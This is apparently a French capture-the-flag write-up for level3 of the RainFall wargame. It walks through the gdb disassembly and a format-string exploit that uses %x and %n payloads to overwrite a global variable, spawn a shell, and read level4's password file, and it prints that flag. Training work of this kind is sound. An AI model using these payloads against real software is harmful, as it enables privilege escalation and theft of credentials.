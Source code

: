 
# level3


## description
- Il y a un exécutable **level1**.Lorsqu'on l'exécute, il prends des caractères sur **stdin** puis l'affiche.

## Résolution

Avec gdb on peut voir une fonction **v** dans le main.

    Dump of assembler code for function v:
       0x080484a4 <+0>:     push   %ebp
       0x080484a5 <+1>:     mov    %esp,%ebp
       0x080484a7 <+3>:     sub    $0x218,%esp
       0x080484ad <+9>:     mov    0x8049860,%eax
       0x080484b2 <+14>:    mov    %eax,0x8(%esp)
       0x080484b6 <+18>:    movl   $0x200,0x4(%esp)
       0x080484be <+26>:    lea    -0x208(%ebp),%eax
       0x080484c4 <+32>:    mov    %eax,(%esp)
       0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
       0x080484cc <+40>:    lea    -0x208(%ebp),%eax
       0x080484d2 <+46>:    mov    %eax,(%esp)
       0x080484d5 <+49>:    call   0x8048390 <printf@plt>
       0x080484da <+54>:    mov    0x804988c,%eax
       0x080484df <+59>:    cmp    $0x40,%eax
       0x080484e2 <+62>:    jne    0x8048518 <v+116>
       0x080484e4 <+64>:    mov    0x8049880,%eax
       0x080484e9 <+69>:    mov    %eax,%edx
       0x080484eb <+71>:    mov    $0x8048600,%eax
       0x080484f0 <+76>:    mov    %edx,0xc(%esp)
       0x080484f4 <+80>:    movl   $0xc,0x8(%esp)
       0x080484fc <+88>:    movl   $0x1,0x4(%esp)
       0x08048504 <+96>:    mov    %eax,(%esp)
       0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
       0x0804850c <+104>:   movl   $0x804860d,(%esp)
       0x08048513 <+111>:   call   0x80483c0 <system@plt>
       0x08048518 <+116>:   leave  
       0x08048519 <+117>:   ret    
    End of assembler dump.

On peut voir l'utilisation de **fgets** qui est protégé contre le buffer overflow. Il y a aussi un appel a **printf** qui est sensible au **format string exploit**.


     0x080484da <+54>:    mov    eax,ds:0x804988c
     0x080484df <+59>:    cmp    eax,0x40
Il y a une comparaison entre la variable **m** et **0x40**(64). Si la comparaison réussie alors ca utilise system pour lancer "/bin/sh".

     0x08048507 <+99>:    call   0x80483b0 <fwrite@plt>
     0x0804850c <+104>:   movl   $0x804860d,(%esp)
     0x08048513 <+111>:   call   0x80483c0 <system@plt>
Notre objectif va être de manipuler printf pour modifier la valeur de la variable m.

Tout d'abord on va afficher la mémoire jusqu'à ce qu'on atteigne la variable que l'on veux modifier. Avec le format **%x**, on peut  afficher l'adresse sur la stack.

    python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x"' > /tmp/exploit && cat /tmp/exploit | ./level3

    aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078
On vois que notre version est a la **4e** position(61 = a en hexa)
Maintenant, on peut changer l'adresse par l'adresse de la variable m.

    level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08 %x %x %x %x"' > /tmp/exploit && cat /tmp/exploit | ./level3
    � 200 b7fd1ac0 b7ff37d0 804988c
L'adresse a bien changé.

Il faut changer la valeur de la variable **m**(qui est a 0 initialement). Pour cela on va utiliser le format **%n**. ca va nous permettre d'écrire un nombre de bytes à l'adresse donnée.

    python -c 'print "\x8c\x98\x04\x08" + "A" * 60 + "%4$n"' > /tmp/exploit && cat /tmp/exploit - | ./level3 

On a réussi.

    Wait what?!
    whoami
    level4
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
